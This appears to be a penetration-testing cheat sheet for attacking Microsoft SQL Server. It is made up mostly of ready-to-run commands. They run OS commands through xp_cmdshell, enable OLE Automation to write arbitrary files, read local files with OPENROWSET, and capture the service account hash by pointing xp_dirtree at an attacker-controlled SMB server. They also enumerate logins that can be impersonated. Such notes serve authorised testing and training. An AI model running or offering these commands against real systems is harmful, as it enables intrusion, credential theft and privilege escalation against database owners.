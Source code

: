 **Using Commands**
```sql
xp_cmdshell '<cmd>'
```

**Writing Local Files**
To write files, we need [`OLE Automation Procedures`](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option) which requires admin privileges, then we can execute stored procedures to create a file. To enable permissions:
```shell
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
```

Then here's how to create a file:
```shell
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, '<file_path>', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<file_contents>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

**Reading Local Files**
By default, we can read any file that the service account has read access to:
```shell
SELECT * FROM OPENROWSET(BULK N'<file_path>', SINGLE_CLOB) AS Contents
```

**Stealing MSSQL Service Hash**
For this to work, we'll need to start `Responder` or `impacket-smbserver`. Then we can run any of these commands (with the IP being our fake server):
```shell
EXEC master..xp_dirtree '\\<IP>\share\'

EXEC master..xp_subdirs '\\<IP>\share\'
```

**User Impersonation**
MSSQL has a special permission called `IMPERSONATE` that allows us to take on the permissions of another user until the context is reset or session ends. By default, Sysadmins can impersonate anyone. 

Here's how we can find a list of users we can impersonate:
```shell
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

Checking if we're sysadmin:
```shell
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```
